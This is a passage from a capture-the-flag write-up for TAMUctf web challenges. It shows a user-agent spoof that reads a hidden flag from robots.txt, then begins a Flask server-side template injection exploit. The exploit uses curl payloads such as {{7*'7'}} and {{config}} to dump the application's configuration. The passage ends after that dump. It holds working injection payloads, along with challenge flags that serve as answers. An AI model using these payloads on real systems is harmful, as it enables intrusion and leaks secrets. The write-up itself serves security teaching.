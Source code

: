 Alright, let's pretend to be Google.

```
$ curl http://web5.tamuctf.com/robots.txt -H 'user-agent: GoogleBot'
User-agent: *

THE HUMANS SUSPECT NOTHING!
HERE IS THE SECRET INFORMATION: gigem{be3p-bOop_rob0tz_4-lyfe}
LONG LIVE THE GOOGLEBOTS!
```

- flag: `gigem{be3p-bOop_rob0tz_4-lyfe}`

## Science
**Category**: Web

{{% blockquote %}}
http://web3.tamuctf.com

Difficulty: medium
{{% /blockquote %}}

When we try to combine any two items, we get a page that includes the name of
both things. Since they call it "Flask as a Service", let's try some template
injection.

```
$ curl http://web3.tamuctf.com/science -d "chem1={{7*'7'}}&chem2=S"
<html>
        <div style="text-align:center">
        <h3>The result of combining 7777777 and S is:</h3></br>
        <iframe src="https://giphy.com/embed/AQ2tIhLp4cBa" width="468"
height="480" frameBorder="0" class="giphy-embed" allowFullScreen></iframe></div>
        </html>
```

Great! Now, let's figure out where the flag is hidden. `{{config}}` gives us the
following:

```
The result of combining <Config {'JSON_AS_ASCII': True, 'O_DSYNC': 4096, 'O_RSYNC': 1052672, 'EX_IOERR': 74, 'EX_NOHOST': 68, 'O_RDONLY': 0, 'ST_SYNCHRONOUS': 16, 'SESSION_REFRESH_EACH_REQUEST': True, 'EX_TEMPFAIL': 75, 'WCOREDUMP': <built-in function WCOREDUMP>, 'SEEK_CUR': 1, 'O_LARGEFILE': 0, 'ST_RELATIME': 4096, 'SECERT_KEY': 'super-secret', 'O_EXCL': 128, 'O_TRUNC': 512, 'EX_OSFILE': 72, 'WIFEXITED': <built-in function WIFEXITED>, 'ST_MANDLOCK': 64, 'ST_NODIRATIME': 2048, 'F_OK': 0, 'WFT_CSRF_ENABLED': True, 'ST_RDONLY': 1, 'EX_NOINPUT': 66, 'O_NOFOLLOW': 131072, 'ST_NOSUID': 2, 'O_CREAT': 64, 'O_SYNC': 1052672, 'EX_NOPERM': 77, 'O_WRONLY': 1, 'SESSION_COOKIE_DOMAIN': None, 'SESSION_COOKIE_NAME': 'session', 'WNOHANG': 1, 'LOGGER_HANDLER_POLICY': 'always', 'O_NOATIME': 262144, 'TMP_MAX': 238328, 'MAX_CONTENT_LENGTH': None, 'ST_WRITE': 128, 'WTERMSIG': <built-in function WTERMSIG>, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'P_NOWAITO': 1, 'R_OK': 4, 'TRAP_HTTP_EXCEPTIONS': False, 'WUNTRACED': 2, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'EX_OSERR': 71, 'EX_DATAERR': 65, 'ST_APPEND': 256, 'SESSION_COOKIE_PATH': None, 'ST_NOATIME': 1024, 'W_OK': 2, 'EX_OK': 0, 'O_APPEND': 1024, 'EX_CANTCREAT': 73, 'O_NOCTTY': 256, 'LOGGER_NAME': 'tamuctf', 'O_NONBLOCK': 2048, 'SECRET_KEY': None, 'EX_UNAVAILABLE': 69, 'EX_CONFIG': 78, 'P_NOWAIT': 1, 'APPLICATION_ROOT': None, 'SERVER_NAME': None, 'PREFERRED_URL_SCHEME': 'http', 'ST_NODEV': 4, 'TESTING': False, 'TEMPLATES_AUTO_RELOAD': None, 'JSONIFY_MIMETYPE': 'application/json', 'WEXITSTATUS': <built-in function WEXITSTATUS>, 'NGROUPS_MAX': 65536, 'WIFCONTINUED': <built-in function WIFCONTINUED>, 'O_RDWR': 2, 'P_WAIT': 0, 'O_NDELAY': 2048, 'USE_X_SENDFILE': False, 'EX_NOUSER': 67, 'SEEK_SET': 0, 'SESSION_COOKIE_SECURE': False, 'O_DIRECT': 16384, 'EX_SOFTWARE': 70, 'RUNCMD': <function check_output at 0x7fdb8c8f2668>, 'WSTOPSIG': <built-in function WSTOPSIG>, 'WIFSIGNALED': <built-in function WIFSIGNALED>, 'DEBUG': False, 'O_ASYNC': 8192, 'EXPLAIN_TEMPLATE_LOADING': False, 'O_DIRECTORY': 65536, 'WCONTINUED': 8, 'SEEK_END': 2, 'ST_NOEXEC': 8, 'JSONIFY_PRETTYPRINT_REGULAR': True, 'PROPAGATE_EXCEPTIONS': None, 'TRAP_BAD_REQUEST_ERRORS': False, 'JSON_SORT_KEYS': True, 'WIFSTOPPED': <built-in function WIFSTOPPED>, 'SESSION_COOKIE_HTTPONLY': True, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'EX_PROTOCOL': 76, 'EX_USAGE': 64, 'X_OK': 1}> and S is:
```

